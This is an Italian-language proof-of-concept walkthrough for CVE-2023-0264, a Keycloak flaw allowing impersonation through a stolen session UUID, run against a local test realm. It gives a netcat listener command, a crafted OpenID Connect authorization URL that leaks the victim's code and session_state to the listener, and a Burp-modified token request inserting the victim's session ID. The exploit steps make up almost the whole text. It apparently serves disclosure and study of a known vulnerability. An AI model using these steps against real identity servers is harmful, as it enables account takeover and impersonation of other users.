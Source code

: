 # CVE-2023-0264 User impersonation via stolen UUID code

- creazione di due utenti, `paola` e `mario` per esempio
- attivazione un listner `$ nc -lvnp 1234`
- autenticazione dell'utente `paola`, l'utente vittima, utilizzando il link descritto nella CVE precedente e qui di seguito riportato:

```shell
https://localhost:4200/realms/winted/protocol/openid-connect/auth?
client_id=winted-web&
redirect_uri=
https%3A%2F%2Flocalhost%3A4200%2Flogin%2f%252E%252E%2fvuln?
url=http%3A%2F%2Flocalhost%3A1234&
state=0a1aeed9-19ae-4f77-b59b-5e7bfe9c5bf6&
response_mode=fragment&
response_type=code&
scope=openid&
nonce=bbe689db-3669-44d0-8934-e224075e93a9
```
b9e16b48-a00a-4e7d-9f96-a1292a90e6f8
- cattura e conservazione del `session_state` perché servirà nei passaggi successivi. Questo parametro rappresenta il `session_id` dell'utente vittima, in questo caso l'utente `paola`. Si noti che la parte centrale del parametro `code` coincide con il `session_state` stesso. 

```shell
GET /?state=0a1aeed9-19ae-4f77-b59b-5e7bfe9c5bf6&
session_state=231fd8bc-2259-417b-9887-a4dcfb9c8f46&
code=d310bb8c-883c-477c-bff3-5e33922a9169.
231fd8bc-2259-417b-9887-a4dcfb9c8f46.
f4e96ce3-fdb3-412d-8ab3-264dd456e096
```
- si è effettuato il logout dell'utente `paola`
- si è verificato che non vi erano più nessun cookie salvato
- si è attivato Burp e si è attivato il proxy
- si è effettuato il login come `mario`, l'utente malevolo
- si è provveduto a forwardare tramite Burp tutte le richieste fino ad arrivare alla richiesta qui di seguito riportata:

```shell
POST /realms/winted/protocol/openid-connect/token HTTP/1.1
```

- in fine si è proceduto a modificare l'url inserendo il `session_state` della vittima catturato prima:

```shell
POST /realms/winted/protocol/openid-connect/token HTTP/1.1
...cut...
code=96a0d20a-0ca8-461f-bc3c-e8e50ef60d62.<SESSION_ID_VITTIMA>.f4e96ce3-fdb3-412d-8ab3-264dd456e096
```

- Il processo termina inviando la richiesta
